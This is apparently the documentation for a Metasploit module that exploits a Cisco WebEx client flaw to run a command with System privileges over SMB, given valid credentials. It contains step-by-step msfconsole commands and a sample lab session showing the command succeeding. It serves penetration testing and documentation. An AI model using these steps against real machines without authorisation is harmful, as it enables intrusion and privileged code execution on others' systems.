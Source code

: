 ## Description

  This module exploits a remote code execution vulnerability in Cisco's WebEx client software versions < v33.6.0.655
  By supplying valid login credentials to the target machine, a single command can be executed with System privileges.

## Vulnerable Application

  Cisco WebEx Client v33.3.8.7 and below

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/admin/smb/webexec_command```
  4. Do: ```set RHOSTS <IP>```
  5. Do: ```set SMBUser <USERNAME>```
  6. Do: ```set SMBPass <PASSWORD>```
  7. Do: ```run```
  8. You should get output that verifies the execution of the command

## Options

### FORCE_GUI

  Uses WMIC to create a GUI

## Scenarios

### Tested on Cisco WebEx v33.3.8.7 on Windows 7 x64 and x86

  ```
  msf5 > use auxiliary/admin/smb/webexec_command 
  msf5 auxiliary(admin/smb/webexec_command) > set rhosts 192.168.37.136
  rhosts => 192.168.37.136
  msf5 auxiliary(admin/smb/webexec_command) > set smbuser a_user
  smbuser => a_user
  msf5 auxiliary(admin/smb/webexec_command) > set smbpass password
  smbpass => password
  msf5 auxiliary(admin/smb/webexec_command) > run

  [+] 192.168.37.136:445    - Command completed!
  [*] 192.168.37.136:445    - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(admin/smb/webexec_command) > 
  ```
